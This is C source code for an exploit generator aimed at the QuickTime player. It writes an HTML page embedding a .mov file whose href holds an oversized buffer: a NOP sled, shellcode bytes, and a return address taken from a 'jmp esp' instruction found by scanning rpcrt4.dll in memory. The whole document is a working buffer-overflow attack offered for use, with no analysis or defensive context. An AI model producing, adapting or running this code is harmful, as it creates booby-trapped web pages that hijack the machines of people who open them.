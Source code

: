 EXP
---

    #include    <stdio.h>
    #include    <stdlib.h>
    #include    <windows.h>

    #define MOV_FILE    "c:\\program files\\quicktime\\sample.mov"
    #define HEIGHT      60
    #define WIDTH       60
    #define TARGET      "QUICKTIMEPLAYER"
    #define FILE_IMAGE  \
                        "<html><embed src=\"%s\" href=\"%s\" "\
                        "width=%d height=%d autoplay=\"true\" "\
                        "target=\"%s\"><br></html>"
    #define BUFSIZE     730
    #define RET         684
    #define ESP_TGT     "rpcrt4.dll"
    #define JMPESP_1    0xff
    #define JMPESP_2    0xe4
    #define NOP         0x90

    unsigned char   exploit_code[200]={
            0x33,0xC0,0x40,0x40,0x40,0x40,0x40,0x50,
            0x50,0x90,0xB8,0x2D,0x23,0xF5,0xBF,0x48,
            0xFF,0xD0,0x00,
    };

    main(int argc,char *argv[])
    {
        FILE            *fp;
        char            buf[BUFSIZE];
        unsigned int    i,pretadr,p,ip,kp;
        MEMORY_BASIC_INFORMATION meminfo;

        if (argc<2){
            printf("usage : %s Output_HTML-fileName [Sample .mov file]\n",
                   argv[0]);
            exit(1);
        }

        if ((void *)(kp=(unsigned int)LoadLibrary(ESP_TGT))==NULL){
             printf("%s is not found.\n",ESP_TGT);
             exit(1);
        }

        VirtualQuery((void *)kp,&meminfo,sizeof(MEMORY_BASIC_INFORMATION));
        pretadr=0;
        for (i=0;i<meminfo.RegionSize;i++){
            p=kp+i;
            if (  ( p     &0xff)==0
               || ((p>>8 )&0xff)==0
               || ((p>>16)&0xff)==0
               || ((p>>24)&0xff)==0) continue;
            if (   *((unsigned char *)p)==JMPESP_1
                && *(((unsigned char *)p)+1)==JMPESP_2)
                pretadr=p;
        }
        if ((fp=fopen(argv[1],"wb"))==NULL){
            printf("File write error \"%s\"\n",argv[1]);
            exit(1);
        }
        memset(buf,NOP,BUFSIZE);
        memcpy(buf+700-12,exploit_code,strlen(exploit_code));
        buf[BUFSIZE-2]=0;

        ip=pretadr;
        printf("EIP=%x\n",ip);
        buf[RET  ]=ip&0xff;
        buf[RET+1]=(ip>>8)&0xff;
        buf[RET+2]=(ip>>16)&0xff;
        buf[RET+3]=(ip>>24)&0xff;

        if (argc==2)
            fprintf(fp,FILE_IMAGE,MOV_FILE,buf,WIDTH,HEIGHT,TARGET);
        else
            fprintf(fp,FILE_IMAGE,argv[2],buf,WIDTH,HEIGHT,TARGET);
        fclose(fp);
        printf("Done.\n");
     }